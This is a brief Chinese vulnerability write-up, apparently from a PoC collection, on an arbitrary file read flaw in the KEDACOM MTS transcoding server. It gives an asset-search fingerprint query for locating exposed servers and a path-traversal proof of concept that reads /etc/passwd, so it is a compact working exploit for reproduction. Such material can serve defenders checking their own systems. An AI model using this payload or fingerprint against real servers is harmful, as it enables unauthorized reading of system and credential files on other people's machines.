 # 科达 MTS转码服务器 任意文件读取漏洞

# 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## 网络测绘

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](/images/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](/images/202205251454380.png)

